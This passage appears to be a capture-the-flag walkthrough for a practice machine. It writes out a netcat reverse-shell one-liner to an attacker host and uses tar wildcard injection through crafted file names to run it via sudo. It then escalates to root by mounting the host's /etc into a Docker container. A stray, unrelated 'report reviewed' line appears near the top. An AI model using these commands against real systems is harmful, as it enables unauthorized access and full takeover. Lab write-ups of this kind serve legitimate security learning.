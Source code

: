 ```From system Thank you for your report. We have reviewed the listing and found nothing that violates our rules.```


```echo "mkfifo /tmp/ahikccu; nc VPN IP 1337 0</tmp/ahikccu | /bin/sh >/tmp/ahikccu 2>&1; rm /tmp/ahikccu" > shell.sh```

```chmod 777 shell.sh```

```echo "" > "--checkpoint-action=exec=sh shell.sh"```

```echo "" > --checkpoint=1```

![Image](https://imgur.com/sIDLttv.png)

Now let open another terminal to start an Ncat listener on port 1337.

![Image](https://imgur.com/OTBjWnC.png)

Now let go back to the first terminal and type;

```sudo -u michael /opt/backups/backup.sh```

![Image](https://imgur.com/sb7drKn.png)

Going back to our Ncat listener we can see we have shell with user micheal.

![Image](https://imgur.com/ARTNs0i.png)

We can spawn a TTY shell with ```python -c 'import pty; pty.spawn ("/bin/bash")'``` to make our work more clean.

Privilege escalation to get root typing ```id```  we can see docker in the group of the user micheal since we have access to the user which is a part of the docker group then it is the same as to give constant root access without any password. 

![Image](https://imgur.com/4fbG1Oc.png)

```docker run -v /etc/:/mnt -it alpine```

We ran the command shown below, this command obtains the alpine image from the Docker Hub Registry and runs it. The –v parameter specifies that we want to create a volume in the Docker instance. The –it parameters put the Docker into the shell mode rather than starting a daemon process. The instance is set up to mount the root filesystem of the target machine to the instance volume, so when the instance starts it immediately loads a chroot into that volume. This gives us the root of the machine. After running the command, we traverse into the /mnt directory and found out root.txt.

![Image](https://imgur.com/dBeQFR4.png)

Boom and we are root, box rooted we can get our root.txt in the root folder.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
